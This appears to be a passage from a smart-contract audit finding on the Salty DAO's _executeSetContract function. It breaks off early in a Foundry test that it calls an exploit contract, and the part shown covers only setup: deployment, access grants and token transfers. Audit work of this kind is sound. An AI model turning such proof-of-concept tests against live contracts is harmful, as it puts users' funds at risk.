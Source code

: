 it will affect these addresses change :

https://github.com/code-423n4/2024-01-salty/blob/53516c2cdfdfacb662cdea6417c52f23c94d5b5b/src/dao/DAO.sol#L131-L145
```
	function _executeSetContract( Ballot memory ballot ) internal
		{
		bytes32 nameHash = keccak256(bytes( ballot.ballotName ) );

		if ( nameHash == keccak256(bytes( "setContract:priceFeed1_confirm" )) )
			priceAggregator.setPriceFeed( 1, IPriceFeed(ballot.address1) );
		else if ( nameHash == keccak256(bytes( "setContract:priceFeed2_confirm" )) )
			priceAggregator.setPriceFeed( 2, IPriceFeed(ballot.address1) );
		else if ( nameHash == keccak256(bytes( "setContract:priceFeed3_confirm" )) )
			priceAggregator.setPriceFeed( 3, IPriceFeed(ballot.address1) );
		else if ( nameHash == keccak256(bytes( "setContract:accessManager_confirm" )) )
			exchangeConfig.setAccessManager( IAccessManager(ballot.address1) );

		emit SetContract(ballot.ballotName, ballot.address1);
		}
```
This is the exploit contract,please place it in the "test" folder within the project directory：
```// SPDX-License-Identifier: BUSL 1.1
pragma solidity =0.8.22;

import "../src/dev/Deployment.sol";
import "../src/pools/PoolUtils.sol";
import "forge-std/console.sol";

contract MyDaoTest is Deployment {

    address public constant alice = address(0x1111);
    address public constant bob = address(0x2222);
    address public constant charlie = address(0x3333);

    function setUp() public {
        initializeContracts();

		grantAccessAlice();
		grantAccessBob();
		grantAccessCharlie();
		grantAccessDeployer();
		grantAccessDefault();

		finalizeBootstrap();

        // console.logUint(uint(weth.balanceOf(DEPLOYER)));
        // console.logUint(uint(wbtc.balanceOf(DEPLOYER)));
        // console.logUint(uint(dai.balanceOf(DEPLOYER)));


		vm.startPrank(DEPLOYER);
		weth.transfer(alice, 1000000 ether);
		wbtc.transfer(alice, 1000000 * 10 ** 8);
		dai.transfer(alice, 1000000 ether);

        weth.transfer(bob, 1000000 ether);
		wbtc.transfer(bob, 1000000 * 10 ** 8);
		dai.transfer(bob, 1000000 ether);

		vm.stopPrank();

        //alice config
        vm.startPrank(alice);

```